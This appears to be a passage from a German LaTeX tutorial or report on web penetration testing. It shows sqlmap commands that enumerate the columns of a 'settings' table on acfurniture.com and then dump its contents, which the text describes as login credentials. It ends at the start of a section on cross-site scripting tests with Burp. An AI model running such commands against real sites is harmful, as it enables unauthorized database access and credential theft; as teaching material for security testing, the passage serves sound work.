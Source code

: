Bisher wurde festgestellt, dass die Website \texttt{acfurniture.com} hat zwei Datenbanken, acfurniture und information\_schema. Die Datenbank \texttt{"acfurniture"} enthält vier Tabellen: \texttt{category}, \texttt{product}, \texttt{product\_hacked} und settings.\\

\textbf{C. Spalten aufdecken}

\begin{Listing}[h]
	\begin{lstlisting}
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture -T settings --columns
	\end{lstlisting}
	\caption{Aufdeckung von Spalten}
\end{Listing}

\begin{figure}[h]
	\centering
	\texttt{[image: aufdeckungvonspalten.png]}
	\caption{Ergebnis: Spalten}
\end{figure}

Die \texttt{settings} Tabelle besteht aus 6 Spalten, und dies ist eigentlich ein Konto mit Anmeldeinformationen. Jetzt wird versucht diese Informationen auszugeben.\\

\newpage
\textbf{D. Informationen aufdecken}

Man kann auch alle Daten in der Tabelle mit folgendem Befehl ausgeben:

\begin{Listing}[h]
	\begin{lstlisting}
~# sqlmap -u "http://www.acfurniture.com/item.php?id=25" -D acfurniture -T settings --dump
	\end{lstlisting}
	\caption{Aufdeckung von alle Daten in der Tabelle}
\end{Listing}

Das Ergebnis sollte so aussehen:

\begin{figure}[h]
	\centering
	\texttt{[image: aufdeckungalledatenindertabelle.png]}
	\caption{Ergebnis: Alle Daten in der Tabelle}
\end{figure}


\subsection{Testen von Cross-Site-Scripting mit Burp}

Das folgende Cross-Site-Scripting-Beispiel stammt aus dem Tutorial von Web-Sicherheitsseite Portswigger\cite{portswigger12}.

